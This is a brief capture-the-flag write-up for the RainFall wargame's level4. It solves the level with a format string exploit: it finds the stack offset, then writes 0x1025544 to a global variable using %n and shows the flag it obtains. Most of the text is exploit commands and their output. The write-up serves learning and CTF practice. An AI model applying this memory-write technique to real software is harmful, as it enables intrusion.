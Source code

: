 ### Exploit

Format string exploit, here I come. We hit the stack with 12 %ps this time around.

```
    level4@RainFall:~$ ./level4
    AAAA%12$p
    AAAA0x41414141
    level4@RainFall:~$ python -c 'print "\x10\x98\x49\x08" + "%12$p"' | ./level4
    �I�0x08499810
```


```
    0x0804848d <+54>:	mov    eax,ds:0x8049810
    0x08048492 <+59>:	cmp    eax,0x1025544
```

16930116 is 0x1025544 in hexadecimal. Leaving 4 bytes for an address, print the "first" 16930112 characters and then...

```
    level4@RainFall:~$ python -c "print '\x10\x98\x04\x08' + '%16930112x%12\$n'" > /tmp/payload
    level4@RainFall:~$ cat /tmp/payload - | ./level4
    0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
